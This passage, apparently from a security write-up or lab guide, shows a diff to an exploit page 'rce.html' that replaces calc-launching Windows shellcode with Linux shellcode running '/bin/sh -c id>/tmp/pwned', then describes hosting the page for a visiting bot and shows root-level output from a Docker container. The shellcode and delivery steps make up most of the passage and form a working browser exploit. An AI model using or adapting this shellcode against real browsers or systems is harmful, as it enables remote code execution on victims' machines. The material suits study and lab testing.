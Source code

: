The hex bytes can be copied into the array, replacing the original:

{% code title="rce.html" %}
```diff
- const sc = [0x48, 0x83, 0xe4, 0xf0, 0x55, 0x48, 0x83, 0xec, 0x28, 0xe8, 0x2e, 0x00, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x20, 0x48, 0x8d, 0x15, 0xd7, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x4c, 0x24, 0x20, 0xe8, 0x34, 0x00, 0x00, 0x00, 0xba, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x0d, 0xc9, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x83, 0xc4, 0x28, 0x5d, 0x48, 0x89, 0xec, 0x5d, 0xc3, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x40, 0x18, 0x48, 0x8b, 0x40, 0x20, 0x48, 0x8b, 0x00, 0x48, 0x8b, 0x00, 0x48, 0x8b, 0x40, 0x20, 0xc3, 0x53, 0x57, 0x56, 0x41, 0x50, 0x48, 0x89, 0x4c, 0x24, 0x28, 0x48, 0x89, 0x54, 0x24, 0x30, 0x8b, 0x59, 0x3c, 0x48, 0x01, 0xcb, 0x8b, 0x9b, 0x88, 0x00, 0x00, 0x00, 0x48, 0x01, 0xcb, 0x44, 0x8b, 0x43, 0x18, 0x8b, 0x7b, 0x20, 0x48, 0x01, 0xcf, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xc0, 0x4c, 0x39, 0xc6, 0x73, 0x43, 0x8b, 0x0c, 0xb7, 0x48, 0x03, 0x4c, 0x24, 0x28, 0x48, 0x8b, 0x54, 0x24, 0x30, 0x48, 0x83, 0xec, 0x28, 0xe8, 0x33, 0x00, 0x00, 0x00, 0x48, 0x83, 0xc4, 0x28, 0x48, 0x85, 0xc0, 0x74, 0x08, 0x48, 0x31, 0xc0, 0x48, 0xff, 0xc6, 0xeb, 0xd4, 0x48, 0x8b, 0x4c, 0x24, 0x28, 0x8b, 0x7b, 0x24, 0x48, 0x01, 0xcf, 0x48, 0x0f, 0xb7, 0x34, 0x77, 0x8b, 0x7b, 0x1c, 0x48, 0x01, 0xcf, 0x8b, 0x04, 0xb7, 0x48, 0x01, 0xc8, 0x41, 0x58, 0x5e, 0x5f, 0x5b, 0xc3, 0x53, 0x8a, 0x01, 0x8a, 0x1a, 0x84, 0xc0, 0x74, 0x0c, 0x38, 0xd8, 0x75, 0x08, 0x48, 0xff, 0xc1, 0x48, 0xff, 0xc2, 0xeb, 0xec, 0x28, 0xd8, 0x48, 0x0f, 0xbe, 0xc0, 0x5b, 0xc3, 0x57, 0x69, 0x6e, 0x45, 0x78, 0x65, 0x63, 0x00];
- const cmd = 'calc';
- for (let i = 0; i < cmd.length; i++) {
-   sc.push(cmd.charCodeAt(i));
- }
+ const sc = [0x48,0xb8,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x0,0x99,0x50,0x54,0x5f,0x52,0x66,0x68,0x2d,0x63,0x54,0x5e,0x52,0xe8,0xe,0x0,0x0,0x0,0x69,0x64,0x3e,0x2f,0x74,0x6d,0x70,0x2f,0x70,0x77,0x6e,0x65,0x64,0x0,0x56,0x57,0x54,0x5e,0x6a,0x3b,0x58,0xf,0x5];
```
{% endcode %}

All that's left to do now is host it, and let the bot visit the page with malicious JavaScript. This should write the output of `id` to `/tmp/pwned`:

```shell-session
$ docker compose exec -it web cat /tmp/pwned
uid=0(root) gid=0(root) groups=0(root)
```

{% hint style="warning" %}
**Note**: from testing, on some _kernels_ this proof of concept doesn't seem to work, and segfault into something involving `SEGV_PKUERR`. I'm not sure why this happens, but if you encounter such a case you may have to try a different issue with a proof of concept.
{% endhint %}
